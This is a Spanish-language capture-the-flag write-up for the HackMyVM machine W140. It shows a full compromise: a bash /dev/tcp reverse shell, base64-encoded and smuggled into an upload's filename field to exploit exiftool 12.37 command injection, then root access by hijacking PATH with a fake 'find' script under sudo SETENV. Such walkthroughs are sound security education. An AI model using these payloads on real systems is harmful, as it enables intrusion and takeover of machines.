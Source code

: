 ```yaml
---
layout: post
title: W140 - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Powerful \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/w140/w140.png#center)

## Reconocimiento

Como siempre, lo primero es realizar un escaneo de los puertos disponibles en la máquina.

```
$ sudo nmap 192.168.1.59
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-07 14:22 EST
Nmap scan report for 192.168.1.59
Host is up (0.000098s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE    SERVICE
22/tcp open     ssh
80/tcp open     http
```

### Http (80)

Realizo una enumeración de archivos y subdirectorios utilizando **gobuster**.

```
$ gobuster dir -u "http://192.168.1.59/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
[...]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 13235]
/assets               (Status: 301) [Size: 313] [--> http://192.168.1.59/assets/]
/upload.php           (Status: 200) [Size: 3773]
/service.html         (Status: 200) [Size: 3417]
/css                  (Status: 301) [Size: 310] [--> http://192.168.1.59/css/]
/manual               (Status: 301) [Size: 313] [--> http://192.168.1.59/manual/]
/js                   (Status: 301) [Size: 309] [--> http://192.168.1.59/js/]
[...]
```

El más interesante es "/service.html" el cual permite subir una imágen.

![img](/imgs/write-ups/hackmyvm/w140/w140_1.png#center)

## Explotación

Al subir una imágen se creará automaticamente un archivo ".txt" con la salida de la herramienta exiftool (v 12.37)

![img](/imgs/write-ups/hackmyvm/w140/w140_2.png#center)

Existe una vulnerabilidad que afecta a esta version de **exiftool** con la cual se puede obtener una reverse shell. **[PoC github](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)**

### Command Injection

Lo primero que hay que hacer es capturar con **burpsuite** la solicitud para subir la imágen dado que la inyección de comandos se realiza en el campo "filename".

A la hora de conseguir una reverse shell hay que tener en cuenta que el nombre del archivo no puede contener backslash (/). Para evitar esto, codifico el comando que quiera ejecutar en base64 y lo añado de la siguiente manera.

```
$ echo -n "bash -i >& /dev/tcp/192.168.1.86/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuODYvMTIzNCAwPiYx
```

```
[...]
Content-Disposition: form-data; name="image"; filename="echo -n 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuODYvMTIzNCAwPiYx' | base64 -d | bash |"
Content-Type: image/png
[...]
```

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.59] 34896
bash: cannot set terminal process group (455): Inappropriate ioctl for device
bash: no job control in this shell
www-data@w140:/var/www/uploads/1678201980$
```

Ya estoy dentro!

## Escalado de Privilegios

En el directorio "/var/www", se encuentro el archivo oculto **.w140.png** el cuál al enviarlo a mi máquina Kali puedo ver que es un **QR** con la contraseña del usuario Ghost.

```
$ ls -la
ls -la
total 48
drwxr-xr-x  4 root     root  4096 Feb 21 12:54 .
drwxr-xr-x 12 root     root  4096 Jan 29 14:50 ..
-rw-r--r--  1 root     root 28744 Feb 21 12:51 .w140.png
drwxr-xr-x  7 root     root  4096 Mar  7 08:49 html
drwx------ 60 www-data root  4096 Mar  7 10:13 uploads
```

Una vez obtenida la contraseña, puedo iniciar sesión mediante ssh como ghost.

```
$ ssh ghost@192.168.1.59
ghost@192.168.1.59's password: 
Linux w140 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64
[...]
ghost@w140:~$ :)
```

### Root

Ghost tiene permiso para asignar variables de entorno al ejecutar "/opt/Benz-w140" como usuario root.
```
ghost@w140:~$ sudo -l
Matching Defaults entries for ghost on w140:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ghost may run the following commands on w140:
    (root) SETENV: NOPASSWD: /opt/Benz-w140
```

Al leer el script me doy cuenta que el comando "find" al final del archivo no tiene la ruta completa expecificada por lo que junto con el permiso para modificar las variables de entorno es sencillo conseguir acceso como usuario root.

```
ghost@w140:~$ cat /opt/Benz-w140 
#!/bin/bash
. /opt/.bashre
cd /home/ghost/w140      

# clean up log files
if [ -s log/w140.log ] && ! [ -L log/w140.log ]
then
/bin/cat log/w140.log > log/w140.log.old
/usr/bin/truncate -s@ log/w140.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Lo primero que hago es crear un script llamado "find" en "/tmp". Le doy permiso de ejecución y añado "bash" dentro.

Ahora solo queda ejecutar "/opt/Benz-w140" modificando la variable **PATH** para que el primer directorio en el que busque sea "/tmp" y se ejecute mi "find" malicioso.

```
ghost@w140:/opt$ cat /tmp/find
bash
ghost@w140:/opt$ sudo PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games /opt/Benz-w140 
root@w140:/opt# :)
```

Y con esto la máquina ya estaría resuelta.

Muchas gracias a **Powerful** por esta máquina.
